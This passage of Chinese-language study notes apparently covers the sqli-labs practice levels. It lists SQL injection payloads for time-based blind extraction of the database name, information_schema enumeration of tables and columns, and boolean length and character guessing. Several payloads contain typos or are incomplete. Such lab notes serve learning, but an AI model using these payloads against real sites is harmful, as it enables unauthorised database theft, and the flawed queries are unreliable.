 
```
?id=1' and if(substr(database(),%d,1)='%s',sleep(3),1) -- +
```

可以根据时间响应来判断全部字符



爆表

```
?id=1' and if(substr(select table_ name from information_schema.tables where table_schema=database(),%d,1))
```



爆列

```
?id=1' and if(substr(select columns_name from infomation_schema.columns where table_shema=database(),%d,1))
```



#### 方法其他

自己做的

```
?id=1' and if(length(database())=8,sleep(5),3) --+
```



好像并不需要时间盲注

```
?id=1' and length(database())=8 --+
```



然后猜表

判断database的第一位字符是否大于字符‘a’，这里写脚本可以使用二分法进行快速查找

```
?id=1' and left(database(),1)>'a' --+
```







### Less-7

dump into outfile

```
?id=1')) or 1=1 --+
```



